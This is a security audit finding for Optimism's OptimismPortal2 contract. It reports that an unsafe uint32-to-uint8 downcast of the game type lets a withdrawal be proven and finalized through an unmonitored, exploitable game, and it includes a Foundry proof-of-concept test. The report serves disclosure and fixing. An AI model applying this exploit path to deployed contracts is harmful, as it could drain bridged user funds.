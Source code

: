Noisy Pewter Woodpecker

high

# Incorrect game type can be proven and finalized due to unsafe cast

## Summary

The `gameProxy.gameType().raw()` conversions used by OptimismPortal2 in the proving and finalization steps incorrectly casts the `gameType` to a `uint8` instead of a `uint32`, which causes mismatched game types to be considered equivalent. In the event that a game is exploitable, this can be used to skirt around the off-chain monitoring to finalize an invalid withdrawal.

## Vulnerability Detail

Each game can be queried for its `gameType`, which is compared to the current `respectedGameType` in the Portal to confirm the game is valid.

GameType is represented as a `uint32`, allowing numbers up to `2 ** 32 - 1`.
```solidity
type GameType is uint32;
```

However, when converting the GameType to an integer type in order to perform comparisons in the proving and finalization process, we unsafely downcase to a `uint8`:
```solidity
function raw(GameType _gametype) internal pure returns (uint8 gametype_) {
    assembly {
        gametype_ := _gametype
    }
}
```

This means that for any `oldGameType % 256 == X`, any `newGameType % 256 == X` will be considered the same game type.

**This has the potential to shortcut the safeguards to allow malicious games to be finalized.**

As is explained in the comments, only games of the current `respectedGameType` will be watched by the off-chain challenger. This is why we do not allow games that pre-date the last update to be finalized:

> // The game must have been created after `respectedGameTypeUpdatedAt`. This is to prevent users from creating
> // invalid disputes against a deployed game type while the off-chain challenge agents are not watching.

However, the watcher will not be watching games where `gameType % 256 == respectedGameType % 256`.

Let's imagine a situation where game type `0` has been deemed unsafe. It is well known that a user can force a `DEFENDER_WINS` state, even when it is not correct.

At a future date, when the current game type is `256`, a user creates a game with `gameType = 0`. It is not watched by the off chain challenger. This game can be used to prove an invalid state, and then finalize their withdrawal, all while not being watched by the off chain monitoring system.

## Proof of Concept

The following proof of concept can be added to  its own file in `test/L1` to demonstrate the vulnerability:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import { Test } from "forge-std/Test.sol";
import "./OptimismPortal2.t.sol";

contract UnsafeDowncastTest is CommonTest {
    // Reusable default values for a test withdrawal
    Types.WithdrawalTransaction _defaultTx;
    bytes32 _stateRoot;
    bytes32 _storageRoot;
    bytes32 _outputRoot;
    bytes32 _withdrawalHash;
    bytes[] _withdrawalProof;
    Types.OutputRootProof internal _outputRootProof;

    // Use a constructor to set the storage vars above, so as to minimize the number of ffi calls.
    function setUp() public override {
        super.enableFaultProofs();
        super.setUp();

        _defaultTx = Types.WithdrawalTransaction({
            nonce: 0,
            sender: alice,
            target: bob,
            value: 100,
            gasLimit: 100_000,
            data: hex""
        });
        // Get withdrawal proof data we can use for testing.
        (_stateRoot, _storageRoot, _outputRoot, _withdrawalHash, _withdrawalProof) =
            ffi.getProveWithdrawalTransactionInputs(_defaultTx);

        // Setup a dummy output root proof for reuse.
        _outputRootProof = Types.OutputRootProof({
            version: bytes32(uint256(0)),
            stateRoot: _stateRoot,
            messagePasserStorageRoot: _storageRoot,
            latestBlockhash: bytes32(uint256(0))
        });

        // Fund the portal so that we can withdraw ETH.
        vm.deal(address(optimismPortal2), 0xFFFFFFFF);
    }

    function testWrongGameTypeSucceeds() external {
        // we start with respected gameType == 256
        vm.prank(superchainConfig.guardian());
        optimismPortal2.setRespectedGameType(GameType.wrap(256));

        // create a game with gameType == 0, which we know is exploitable
        FaultDisputeGame game = FaultDisputeGame(
            payable(
                address(
                    disputeGameFactory.create(
                        GameType.wrap(0), Claim.wrap(_outputRoot), abi.encode(uint(0xFF))
                    )
                )
            )
        );

        // proving works, even though gameType is incorrect
        vm.warp(block.timestamp + 1);
        optimismPortal2.proveWithdrawalTransaction({
            _tx: _defaultTx,
            _disputeGameIndex: disputeGameFactory.gameCount() - 1,
            _outputRootProof: _outputRootProof,
            _withdrawalProof: _withdrawalProof
        });

        // warp beyond the game duration and resolve the game
        vm.warp(block.timestamp + 4 days);
        game.resolveClaim(0);
        game.resolve();

        // warp another 4 days so withdrawal can be finalized
        vm.warp(block.timestamp + 4 days);

        // finalizing works, even though gameType is incorrect
        uint beforeBal = bob.balance;
        optimismPortal2.finalizeWithdrawalTransaction(_defaultTx);
        assertEq(bob.balance, beforeBal + 100);
    }
}
```

## Impact

The user is able to prove and finalize their withdrawal against a game that is not being watched and is known to be invalid. This would allow them to prove arbitrary withdrawals and steal all funds in the Portal.

## Code Snippet

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/lib/LibUDT.sol#L117-L126

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/L1/OptimismPortal2.sol#L260-L261

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/L1/OptimismPortal2.sol#L497-L500

## Tool used

Manual Review

## Recommendation

```diff
- function raw(GameType _gametype) internal pure returns (uint8 gametype_) {
+ function raw(GameType _gametype) internal pure returns (uint32 gametype_) {
      assembly {
          gametype_ := _gametype
      }
}
```

